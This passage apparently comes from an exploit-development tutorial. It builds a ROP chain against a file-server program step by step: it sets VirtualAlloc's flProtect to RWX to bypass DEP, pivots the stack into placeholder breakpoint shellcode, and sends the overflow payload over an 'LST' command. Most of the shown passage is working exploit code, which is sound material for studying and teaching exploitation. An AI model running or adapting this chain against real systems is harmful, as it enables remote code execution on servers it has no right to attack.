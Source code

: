 ```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```

The argument left to set in the stub is flProtect, which needs to be 0x40 in order to set the permissions of the memory we are allocating as RWX, and this way bypasses the _DEP_ protection. Let's use one more time the negate trick to accomplish this.

```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffffc0) #-0x40
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Now the only thing left to add to our chain is a jump to our Shellcode. The way I did this was by calculating the difference between the current stub-pointer in the stack and the Shellcode. Which was 0x14, so we can move the stub-pointer to _EAX_ and then add 0x14 by doing a negative subtraction with _EDX_ . Finally, we can use the "xchg esp, eax; ret;" to set the value of the stack to it, so after the ret, we should land in our payload.


```python
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffffec) # - 0x14
rop += p32(filesrv+0x0003697f) # add eax, edx; ret;
rop += p32(filesrv+0x00066ab3) # xchg esp, eax; ret;
```

We can test the above by creating a variable, _Shellcode_.

```python
shellcode = b"\xcc"*300
```
And adding it to our payload, as shown below.

```python
payload  = b""
payload += b"LST "
payload += buf
payload += b"A" * (0x408-len(buf))
payload += b"BBBB" #
payload += p32(filesrv+0x00011396) # Stack pivot add esp, 0xe10
payload += b"\x90" * 64
payload += shellcode
payload += b"\x90" * (0xfb0-len(payload))
r.sendline(payload)

r.close()
```

We can corroborate our chain is working using the debugger. We should stop before the _CC_ (breakpoint) instruction is executed.
